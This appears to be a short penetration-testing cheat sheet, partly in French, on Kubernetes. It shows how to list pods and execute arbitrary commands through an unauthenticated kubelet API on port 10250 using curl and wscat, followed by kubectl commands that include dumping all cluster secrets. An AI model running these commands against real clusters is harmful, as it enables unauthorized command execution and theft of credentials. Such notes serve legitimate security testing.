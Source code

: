 Kubernetes
==========

## API
The Kubernetes API exposes the port `10250`. This API can be used to interact with the Kubernetes engine which basically give ou the right to do anything you desire unauthenticated.

To confirm that the host is running Docker you can make a GET requests to `/pods` :

```
https://<host>:<port>/pods

{"kind":"PodList","apiVersion":"v1","metadata":{},"items":[{"metadata":{"name":"dind-sgz8n","generateName":"dind-","namespace":"default","selfLink":"/api/v1/namespaces/default/pods/dind-sgz8n",`...}],"qosClass":"BestEffort"}}]}
```

With the above information it's possible to send requests to the API to execute commands:
```bash
$ curl --insecure -v -H "W-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -H "Connection: upgrade" -H "Upgrade: SPDY/3.1" -X POST "https://<host>:<port>/exec/<namespace>/<pod_name>/<container_name>?command=<cmd>&input=1&output=1&tty=1"
```

In the response, there is a `Location` header to create a WebSocket connection:
```bash
$ wscat -c "https://<host>:<port>/<location_header>" --no-check
```


## Lancer un pod qui se supprime automatiquement à la fin
```bash
$ kubectl run k8s-2-test -ti --rm --image=debian --generator=run-pod/v1
```

## S'attacher à un pod existant
```bash
$ kubectl exec -it k8s-2-test -- /bin/bash
```

## Se connecter à une session existante
```bash
$ kubectl attach k8s-1-test -c k8s-1-test -i -t
```

## Copier un fichier d'un pod à sa machine
```bash
$ kubectl cp default/k8s-1-test:results.nmap ./result_nmaps_banner
```

## Afficher les services (format simple à traiter)
```bash
$ kubectl get services (-o wide)
```

## Afficher les pods (json)
```bash
$ kubectl get pods -o json
```

## Afficher les pods (format simple à traiter)
```bash
$ kubectl get pods -o wide
## Get IP list
$ kubectl get pods -o wide | sed -e 's/\s\+/ /g' | cut -f6 -d " "
```

## Afficher l'ensemble des secrets
```bash
$ kubectl get secrets -o yaml
```
